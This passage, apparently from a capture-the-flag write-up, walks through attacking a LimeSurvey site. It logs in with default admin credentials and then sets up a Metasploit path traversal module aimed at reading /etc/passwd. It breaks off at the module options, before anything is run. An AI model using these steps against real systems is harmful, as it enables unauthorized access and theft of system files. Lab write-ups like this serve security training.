 Oh yes, looks like this could lead somewhere.

Looks like `http://<ip-address>/admin/` redirects to the login page, now it's time to see if they changed their default configuration.

A page on a consulting service, find the information on the default login! Looks like whoever set up the page did not count on this, as those credentials are... really, really common and known as the worst user:password pair that can ever be set, even more when it has administrative privileges.

![](../assets/img/limesurveydashboard.png)

## Compromise the machine

Looking around the website doesn't show much save for the version of LimeSurvey. Now there are a couple of options on how to move forward:

* Find exploit online
* Use metasploit
* Search more information and make custom script

I'll go with option 2 - Using metasploit. It's been a while since I last used it! ;)

```
$ msfconsole

msf6 > search limesurvey

Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/limesurvey_zip_traversals  2020-04-02       normal  No     LimeSurvey Zip Path Traversals
   1  auxiliary/admin/http/limesurvey_file_download     2015-10-12       normal  No     Limesurvey Unauthenticated File Download


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/admin/http/limesurvey_file_download
```
Looks like we can try an exploit now.

```
msf6 > use 0
msf6 auxiliary(scanner/http/limesurvey_zip_traversals) > options

Module options (auxiliary/scanner/http/limesurvey_zip_traversals):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEPTH      7                yes       Traversal Depth (to reach the root folder)
   FILE       /etc/passwd      yes       The file to retrieve
   PASSWORD   password         yes       LimeSurvey Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wi
                                         ki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the LimeSurvey installation
   THREADS    1                yes       The number of concurrent threads (max one per host)
   USERNAME   admin            yes       LimeSurvey Username
   VHOST                       no        HTTP server virtual host

```